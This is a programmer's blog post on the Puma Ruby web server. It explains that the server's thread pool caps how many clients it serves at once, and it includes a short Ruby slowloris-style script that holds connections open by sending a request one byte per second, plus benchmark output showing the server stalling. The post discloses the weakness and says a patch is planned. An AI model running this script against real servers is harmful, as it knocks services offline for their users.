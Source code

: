 ```yaml
---
title: Puma and the light

categories:
  - programming
  - ruby
  - lol

layout: post
---
```


Today after I finished wrapping up [barlume](https://github.com/meh/barlume) I started
thinking about the next steps.

At first I thought about writing a reactor with it and adding a compatibility layer to
make it work like [EventMachine](https://github.com/eventmachine/eventmachine) (and it
will be done), but then I thought about Puma.

[Puma](http://puma.io/) is a very awesome Ruby web server, I really like what it tries to
achieve and by reading the homepage it seems really performant.

So I started digging around the source to see where I could improve its performances and
after seeing the orror of `IO.select` usage (which isn't that bad for how they use it) I
noticed how it handled connections and requests.

{% highlight ruby %}
@thread_pool = ThreadPool.new(@min_threads, @max_threads) do |client, env|
  process_client(client, env)
end
{% endhighlight %}

When it starts it creates a `ThreadPool`, the default minimum is **0** the default maximum is **16**,
after reading more of it, specifically that `process_client` function I realized something else:
it can only handle *maximum threads* clients at a time.

What are the consequences of this sad realization? The consequences are that this simple script
makes *puma* completely unresponsive:

{% highlight ruby %}
#! /usr/bin/env ruby
# encoding: utf-8
require 'socket'

max_threads = ARGV.empty? ? 16 : ARGV.first.to_i
sockets     = []

max_threads.times {
	sockets << TCPSocket.new('localhost', 4567)
}

content = "GET / HTTP/1.1\r\nHost: localhost\r\n\r\n"
offset  = 0

puts "oh noes, a wall on my path D:"

while offset < content.length
	sockets.each {|s|
		s.write_nonblock content[offset]
	}

	offset += 1
	sleep 1
end

puts "oh, there's a door ( ･ ◡◡･)"
{% endhighlight %}

I ran that script on a simple *sinatra* application and prepared to run `ab` to see
how it handled everything, this was the result:

{% highlight text %}
Benchmarking 127.0.0.1 (be patient)...apr_poll: The timeout specified has expired (70007)
{% endhighlight %}

It **dies**.

When the slowpokes are done everything restarts working properly.

So, what's next about all of this? I'll try to write a patch to make it use barlume
and keep it as concurrent as before.

In the meantime I'd suggest to not use it in production or at least with other external
measures to avoid that kind of attack.
